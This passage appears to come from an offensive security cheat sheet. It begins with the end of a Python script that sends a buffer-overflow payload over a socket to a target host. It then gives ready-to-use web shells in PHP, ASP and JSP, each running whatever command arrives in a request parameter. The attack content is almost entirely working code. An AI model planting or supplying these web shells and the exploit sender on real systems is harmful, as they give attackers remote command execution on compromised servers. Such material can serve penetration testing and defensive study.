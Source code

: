    ```python
   
   try:
       s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
       s.connect(("192.168.1.10", 9999))
       s.send(buffer + "\r\n")
       s.close()
       print("Exploit sent!")
   except:
       print("Could not connect to target.")
   ```

### Web Shell Techniques

#### PHP Web Shells
```php
// Basic PHP web shell
<?php system($_GET['cmd']); ?>

// More advanced PHP web shell
<?php
if(isset($_REQUEST['cmd'])){
    echo "<pre>";
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    echo "</pre>";
    die;
}
?>
```

#### ASP/ASPX Web Shells
```aspx
<!-- Basic ASP web shell -->
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c " & Request.QueryString("cmd"))
o = cmd.StdOut.Readall()
Response.write(o)
%>
```

#### JSP Web Shells
```jsp
<%@ page import="java.util.*,java.io.*"%>
<%
if (request.getParameter("cmd") != null) {
    out.println("Command: " + request.getParameter("cmd") + "<br>");
    Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
    OutputStream os = p.getOutputStream();
    InputStream in = p.getInputStream();
    DataInputStream dis = new DataInputStream(in);
    String disr = dis.readLine();
    while ( disr != null ) {
        out.println(disr);
        disr = dis.readLine();
    }
}
%>
```
